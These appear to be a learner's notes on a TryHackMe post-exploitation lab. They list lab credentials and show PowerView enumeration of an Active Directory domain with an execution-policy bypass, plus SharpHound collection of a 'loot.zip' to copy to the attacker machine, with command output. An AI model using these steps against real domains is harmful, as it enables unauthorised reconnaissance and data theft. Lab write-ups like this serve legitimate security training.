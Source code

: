 # Try Hack me's Post-Exploitation Basics Notes

Target: `Windows Server v1.1`

Target ip: `10.10.203.29`

RDP/SSH Username: `Administrator`

RDP/SSH Password: `P@$$W0rd`

RDP/SSH Domain Name:`CONTROLLER`





## Intro
**This room will cover**

-post-exploitation enumeration with powerview and bloodhound

-dumping hashes and golden ticket attacks with mimikatz

-basic information gathering using windows server tools and logs

-maintaining access with metasploit to get a meterpreter shell






## Enumeration w/ Powerview

*Starting this room requires RDP or SSHing into the maching.* **Powerview** is a powershell script from the powershell empire that can be used for enumerating a domain after you have already gained a shell in the system. It is already installed on this target machine. Can be found localy on kali's powersploit documentation and scripts
`/usr/share/window-resources/powersploit`

### Steps

1. Start Powershell, using -ep to bypass the execution policy of powershell, allowing scripts to run:

`powershell -ep bypass`

2. Start PowerView:

`. .\Downloads\PowerView.ps1`

3. Enumerate the domain users:

`Get-NetUser | select cn`

```powershell
PS C:\Users\Administrator>Get-NetUser | select cn
cn                  
--                          
Administrator               
Guest                       
krbtgt                      
Machine-1                   
Admin2                      
Machine-2                   
SQL Service                 
POST{P0W3RV13W_FTW}         
sshd 
```

4. Enumerate the domain groups:

`Get-NetGroup -GroupName *admin*`
```powershell
PS C:\Users\Administrator>Get-NetGroup -GroupName *admin*
Administrators
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```

5. Now enumerate the domain further on your own



Here's a cheatsheet to help you with commands: https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

---

### Questions
1. What is the shared folder that is not set by default

*hint: Invoke-ShareFinder*

`Get-NetShare`

```powershell
PS C:\Users\Administrator> Get-NetShare      

shi1_netname  shi1_type shi1_remark         
------------  --------- -----------         
ADMIN$       2147483648 Remote Admin        
C$           2147483648 Default share       
IPC$         2147483651 Remote IPC          
NETLOGON              0 Logon server share  
Share                 0                     
SYSVOL                0 Logon server share 

```


*or from the hint*

`Invoke-ShareFinder`

```powershell
PS C:\Users\Administrator> Invoke-ShareFinder 
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share 
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
```
a: Share

---

2. What operating system is running inside of the network besides Windows Server 2019 

*hint Get-NetComputer -fulldata | select operatingsystem*

```powershell
PS C:\Users\Administrator\Downloads> Get-NetComputer -fulldata | select operatingsystem

operatingsystem                  
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation
```


a: Windows 10 Enterprise Evaluation

---

3. I've hidden a flag inside the users, find it. 

*to go with the previous naming system:*

`Get-NetUser | select name`

```powershell
PS C:\Users\Administrator\Downloads> Get-NetUser | select name

name                
----
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```
a: POST{P0W3RV13W_FTW}

---


## Enumeration w/ Bloodhound

Bloodhound is a GUI that lets one visually map a network. Sharphound, which is similar to PowerView take the user, groups, trusts etc. of the network,  collects them into a .json file to be used inside of Bloodhound.

SharpHound is alread on the target.

### To install Bloodhound on the attacking machine:

1. `apt-get install bloodhound`

2. `sudo neo4j console`

(delault credentials: neo4j/neo4j)

### Getting loot w/ SharpHound

1. *Same as PowerView*`powershell -ep bypass`

2. `. .\Downloads\SharpHound.ps1`

3. `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
```powershell
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Downloads> . .\SharpHound.ps1
PS C:\Users\Administrator\Downloads> Invoke-Bloodhound -CollectionMethod ALL -Domain CONTROLLER.local -ZipFileName l
oot.zip
------------------------------------------------ 
Initializing SharpHound at 11:22 AM on 7/29/2021 
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL    
PS C:\Users\Administrator\Downloads> [+] Cache File not Found: 0 Objects in cache 

[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 71 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 80 MB RAM 
Enumeration finished in 00:00:00.6137046 
Compressing data to C:\Users\Administrator\Downloads\20210729112230_loot.zip
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 11:22 AM on 7/29/2021! Happy Graphing! 
```
4. Transfer the loot.zip folder to the attacker machine *note since connecting via ssh, scp can be used to transfer the file*

